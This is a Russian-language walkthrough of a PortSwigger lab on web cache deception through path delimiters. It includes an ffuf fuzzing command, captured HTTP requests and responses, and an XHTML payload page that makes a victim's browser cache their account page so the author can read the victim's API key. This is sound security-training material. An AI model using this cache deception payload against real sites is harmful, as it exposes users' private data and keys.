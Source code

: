 ```yaml
---
title: "Exploiting path delimiters for web cache deception"
date: 2025-08-01
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-delimiter-discrepancies/web-cache-deception/lab-wcd-exploiting-path-delimiters"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/
```

## Solution

Залогинюсь в аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится по следующему пути — `/my-account`. Добавлю строчку `bar` для проверки, выдаст ли мне ту же страницу.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/2.png){: height="200" .align-center}

Ожидаемо, что нет. Попробую перебрать  [список разделителей](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list), чтобы понять, какие из них подойдут. Для разнообразия воспользуюсь [`ffuf`](https://cu63.github.io/tools/ffuf/).

```bash
ffuf -w wordlists/webcache_delimeters.txt -u https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-accountFUZZbar -X GET
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/3.png){: height="200" .align-center}

Предположу, что эти символы являются разделителями. Наиболее подходящим выглядит `;`. Использую его:

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;bar
```

Получил ту же страницу ответа. Добавлю расширение `.css`, чтобы проверить, будет ли ответ кэшироваться. Для этого удобнее смотреть `Burp Suite`.

```http
GET /my-account;bar.css HTTP/2
Host: 0a750077032ed4f682a6e83000eb0023.web-security-academy.net
Cookie: session=qqr2NcH61DjJaM74YK4er7ewvpoSuduN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Заголовок ответа:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3833
```

Вижу в ответе `X-Cache: miss` и `Cache-Control`. Значит `.css` файлы кэшируются. Перейду в эксплойт сервер для создания нагрузки.

Так как я занимаюсь разработкой фишинговых нагрузок на работе, то мне не хочется использовать только `.html` и `.js` форматы. Поэтому вот вам немного флекса с `XHTML`:

```xhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css" alt="Pwn" />
</body>
</html>
```

При открытии файла происходит обращение по адресу `https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css` для получения картинки. Но что-то идет не так, и данные пользователя кэшируются. Вот незадача. Файл называют `expoit.xhtml`, в `Content-Type` выставляю значение `application/xhtml+xml`. На сайте это выглядит вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/4.png){: height="200" .align-center}

Отправляю запрос и проверяю страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/5.png){: height="200" .align-center}

`API`-ключ получен. Проверю его в верификаторе:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/6.png){: height="200" .align-center}
